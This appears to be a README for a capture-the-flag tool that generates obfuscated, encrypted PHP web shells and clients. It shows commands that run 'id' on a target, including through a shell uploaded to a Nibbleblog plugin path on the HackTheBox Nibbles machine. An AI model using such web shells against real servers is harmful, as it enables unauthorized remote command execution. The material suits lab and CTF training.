

Generate  web shells easily for CTF challenges including.

- Encryption 
- Authorization 
- Obfuscation 

> Quickly generate a new webshell and client.
```
sh gen_php_webshell.sh
```

> Execute Commands on the target using  the syntax bellow or implement your own client.
```
php-cgi -f client-afbffcfaefdb.php \
	url=http://127.0.0.1/afbffcfaefdb.php \
	cmd='id'
```


Another example from [Nibbles](https://app.hackthebox.com/machines/121)


-> first we must  generate a new client and webshell.


-> Now we just need to upload it and find our file.


-> Here it is `/nibbleblog/content/private/plugins/my_image/image.php`


So our command we'll look like this. 
```
php-cgi -f client-aaaacdecaff.php \
url=http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php \
	cmd='id'
```


That's all! Cheers